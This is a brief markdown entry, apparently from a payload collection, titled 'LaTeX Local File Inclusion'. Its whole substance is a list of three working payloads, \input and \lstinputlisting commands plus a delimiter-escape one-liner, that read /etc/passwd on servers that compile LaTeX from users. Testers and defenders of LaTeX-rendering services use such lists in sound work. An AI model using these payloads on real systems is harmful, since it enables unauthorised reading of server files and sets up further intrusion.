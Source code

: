 # LaTeX Local File Inclusion

### Payloads:

 - \input{/etc/passwd}

 - \lstinputlisting{/etc/passwd}

 - ($\lstinputlisting{/etc/passwd}$) (Delimiter escape. One-liner)
